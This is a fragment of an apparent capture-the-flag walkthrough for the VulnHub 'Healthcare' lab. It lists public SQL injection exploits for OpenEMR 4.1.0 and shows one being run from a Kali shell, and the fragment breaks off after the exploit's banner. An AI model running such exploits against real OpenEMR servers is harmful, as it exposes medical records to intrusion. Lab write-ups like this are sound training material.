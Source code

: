 		- Not found
2. Search exploits for `openEMR v4.1.0`
	
	| Exploit Title                     | Path                  |
	| --------------------------------- | --------------------- |
	| OpenEMR 4.1.0 - 'u' SQL Injection | php/webapps/49742.py  |
	| Openemr-4.1.0 - SQL Injection     | php/webapps/17998.txt |

3. Try `php/webapps/49742.py`
	1. Edit `url` variable
		![](images/Pasted%20image%2020220202144827.png)
	2. Run exploit
		```
		┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/exploit]
		└─# python3 49742.py 

		   ____                   ________  _______     __ __   ___ ____
		  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
		 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
		/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
		\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
			/_/
			____  ___           __   _____ ____    __    _
		   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
		  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
		 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
		/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike
